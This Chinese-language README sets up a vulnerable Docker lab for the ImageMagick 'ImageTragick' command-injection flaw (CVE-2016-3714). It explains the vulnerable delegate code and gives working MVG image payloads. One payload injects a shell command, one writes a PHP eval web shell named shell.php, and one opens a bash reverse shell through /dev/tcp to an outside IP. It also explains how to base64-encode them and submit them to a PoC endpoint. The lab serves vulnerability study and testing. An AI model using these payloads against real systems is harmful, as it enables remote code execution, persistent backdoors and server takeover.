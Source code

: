 ## ImageMagick 命令执行漏洞（CVE-2016–3714）环境

### 说明

 感谢 [@justkg](https://github.com/justkg) 提供原始环境。

### 漏洞信息

 * [ImageMagick Is On Fire — CVE-2016–3714](https://imagetragick.com/)
 * [ImageMagick: Multiple vulnerabilities in image decoder](http://pastebin.com/aE4sKnCg)
 * [Write Up: Remote Command Execute in Wordpress 4.5.1](http://ricterz.me/posts/Write%20Up%3A%20Remote%20Command%20Execute%20in%20Wordpress%204.5.1?_=1462424557950)

5月3日，ImageMagick官方披露称，目前ImageMagick存在一处远程命令执行漏洞（CVE-2016–3714），当其处理的上传图片带有攻击代码时，可被远程执行任意代码，进而导致攻击者控制服务器。

ImageMagick是一款开源图片处理库，支持 PHP、Ruby、NodeJS 和 Python 等多种语言，使用非常广泛。包括 PHP imagick、Ruby rmagick 和 paperclip 以及 NodeJS imagemagick 等多个图片处理插件都依赖它运行。

### 漏洞相关代码

ImageMagick 在 `MagickCore/constitute.c` 的 `ReadImage` 函数中解析图片，如果图片地址是 `https://` 开头的，即调用 InvokeDelegate。

`MagickCore/delegate.c` 定义了委托，[第 99 行](https://github.com/ImageMagick/ImageMagick/blob/e93e339c0a44cec16c08d78241f7aa3754485004/MagickCore/delegate.c#L99)定义了要执行的命令。

```
99    "  <delegate decode=\"https\" command=\"&quot;wget&quot; -q -O &quot;%o&quot; &quot;https:%M&quot;\"/>"
```

最终 `InvokeDelegate` 调用 [`ExternalDelegateCommand` 执行命令](https://github.com/ImageMagick/ImageMagick/blob/e93e339c0a44cec16c08d78241f7aa3754485004/MagickCore/delegate.c#L407)。

```
#if !defined(MAGICKCORE_HAVE_EXECVP)
  status=system(sanitize_command);
#else
  if ((asynchronous != MagickFalse) ||
      (strpbrk(sanitize_command,"&;<>|") != (char *) NULL))
    status=system(sanitize_command);
  else
    {
      pid_t
        child_pid;

```

### 镜像信息

本镜像中提供了本地测试 PoC 和 远程测试 PoC


类型 | 值
:-:|:-:
开放端口 | 80
远程 PoC | /poc.php

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:i_imagemagick_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 --name=i_imagemagick_1 medicean/vulapps:i_imagemagick_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

### PoC 与 Exp 使用

#### 本地测试

在容器中 `/poc.png` 文件内容如下：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://evalbug.com/"|ls -la")'
pop graphic-context
```

构建时已经集成在容器中，可手动修改第 3 行的命令。

在物理机上直接执行下面命令验证漏洞：

```
$ docker exec i_imagemagick_1 convert /poc.png 1.png
```

或进入 docker容器 shell 中执行：

```
$ convert /poc.png 1.png
```

如果看到 `ls -al` 命令成功执行，则存在漏洞。

#### 远程命令执行测试

远程命令执行无回显，可通过写文件或者反弹 shell 来验证漏洞存在。

1. 写一句话到网站根目录下：

 ```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/1.jpg"|echo \'<?php eval($_POST[\'ant\']);?>\' > shell.php")'
pop graphic-context
 ```

2. 反弹 shell:

 ```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/1.jpg"|bash -i >& /dev/tcp/192.168.1.101/2333 0>&1")'
pop graphic-context
 ```

将上述两个 Exp 经过 base64 编码后发送到远程 `poc.php`，querystring 的 `key` 为 `img`。

也可修改 `poc.py` 后执行。
